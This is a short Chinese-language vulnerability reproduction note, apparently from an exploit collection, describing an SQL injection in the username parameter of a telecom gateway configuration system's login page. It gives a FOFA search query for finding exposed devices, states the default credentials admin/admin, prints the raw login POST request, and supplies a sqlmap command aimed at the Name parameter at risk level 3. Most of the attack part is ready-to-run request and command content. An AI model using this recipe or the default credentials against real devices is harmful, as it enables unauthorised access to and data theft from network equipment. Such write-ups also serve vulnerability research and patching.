  漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

 漏洞影响


电信网关配置管理系统

# FOFA

body="src=\"img/dl.gif\"" && title="系统登录"

 漏洞复现


登录页面如下

![](resource/电信网关配置管理系统/1.png)

设备存在默认弱口令 admin/admin

![](resource/电信网关配置管理系统/2.png)

登录的请求包为

```
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```
保存为文件使用 Sqlmap工具，注入点为 Name参数
```
sqlmap -r sql-1.txt -p Name --risk 3
```
![](resource/电信网关配置管理系统/3.png)